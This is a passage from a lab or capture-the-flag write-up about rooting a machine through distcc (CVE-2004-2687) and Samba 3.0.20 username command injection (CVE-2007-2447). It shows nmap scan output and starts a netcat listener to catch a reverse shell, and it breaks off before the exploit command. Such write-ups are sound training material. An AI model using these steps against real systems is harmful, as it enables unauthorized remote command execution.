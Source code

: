|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687

{{< /highlight >}}

Great! The *distcc* service running on port 3632 seems vulnerable to **CVE-2004-2687**.

> distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to
> execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks.

After some googling I found that nmap has a script that exploits the vulnerability: **distcc-cve2004-2687**.

### 2. Check exploits for Samba 3.0.20-Debian

Apparently, the aforementioned Samba version seems to be vulnerable to **CVE2007-2447**.
Let's see what is this exploit about:

> By sending shell metacharacters into the username we trigger the bug which in turn allows us to send arbitrary commands to the device through the username field when attempting an SMB connection. As we mentioned earlier, no authentication is required to exploit this due to the fact that the option is used to map usernames prior to authentication and thus we can exploit this whilst being unauthenticated.

**Note**: shell metacharacters are special characters that the shell interprets rather than passing to the command.

At this point It seems I have two possible ways of rooting the machine:

**1**. exploiting the *distcc* service

**2**. exploiting Samba

I'll cover both ways.

# Exploitation

### 1. distcc Service

First of all I have to launch a listener on my machine:

{{< highlight html >}}
nc -lvp 4445
listening on [any] 4445 ...
{{< /highlight >}}

Next, in another terminal window I have to launch the nmap script with its arguments:
